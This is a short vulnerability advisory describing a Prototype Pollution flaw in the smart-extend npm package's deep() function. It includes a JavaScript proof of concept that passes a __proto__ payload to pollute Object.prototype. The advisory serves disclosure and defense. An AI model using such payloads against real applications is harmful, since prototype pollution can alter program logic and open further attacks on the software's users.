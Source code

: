 # Overview

smart-extend is an extension to jQuery's classic `extend()` method with additional features providing you with more power and control over your object extensions/clones.

Affected versions of this package are vulnerable to Prototype Pollution. `deep` function is vulnerable when it performs a recursive copy of the specified objects.

# Proof of Concept

```javascript
var extend = require('smart-extend');

var payload = '{"__proto__":{"polluted":"pwned!"}}';
var test = {};
extend.deep({},JSON.parse(payload));

console.log(test.polluted);
```
